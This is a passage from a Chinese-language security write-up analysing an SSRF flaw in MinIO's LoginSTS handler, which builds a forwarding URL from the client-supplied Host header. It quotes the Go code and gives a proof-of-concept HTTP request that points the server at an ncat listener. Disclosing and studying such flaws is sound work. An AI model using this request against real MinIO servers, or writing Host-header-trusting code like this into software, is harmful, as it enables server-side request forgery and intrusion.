 很快找到了一个接口，`LoginSTS`。这个接口其实是AWS STS登录接口的一个代理，用于将发送到JsonRPC的请求转变成STS的方式转发给本地的9000端口（也就还是他自己，因为它是兼容AWS协议的）。

简化其代码如下：

```
// LoginSTS - STS user login handler.
func (web *webAPIHandlers) LoginSTS(r *http.Request, args *LoginSTSArgs, reply *LoginRep) error {
    ctx := newWebContext(r, args, "WebLoginSTS")

    v := url.Values{}
    v.Set("Action", webIdentity)
    v.Set("WebIdentityToken", args.Token)
    v.Set("Version", stsAPIVersion)

    scheme := "http"
    // ...

    u := &url.URL{
        Scheme: scheme,
        Host:   r.Host,
    }

    u.RawQuery = v.Encode()
    req, err := http.NewRequest(http.MethodPost, u.String(), nil)
    // ...
}
```

没发现有鉴权上的绕过问题，但是发现了另一个有趣的问题。这里，MinIO为了将请求转发给“自己”，就从用户发送的HTTP头Host中获取到“自己的地址”，并将其作为URL的Host构造了新的URL。

这个过程有什么问题呢？

因为请求头是用户可控的，所以这里可以构造任意的Host，进而构造一个SSRF漏洞。

我们来实际测试一下，向`http://192.168.227.131:9000`发送如下请求，其中Host的值是我本地ncat开放的端口（`192.168.1.142:4444`）：

```
POST /minio/webrpc HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Content-Type: application/json
Content-Length: 80

{"id":1,"jsonrpc":"2.0","params":{"token":  "Test"},"method":"web.LoginSTS"}
```

成功收到请求：

[![image-20210124215812861.png](../../../.vuepress/public/img/ebe8ebd1-d1c1-4d28-92e7-8da4774e940e.6488ddc9fcc5.png)](https://www.leavesongs.com/media/attachment/2021/01/30/ebe8ebd1-d1c1-4d28-92e7-8da4774e940e.png)
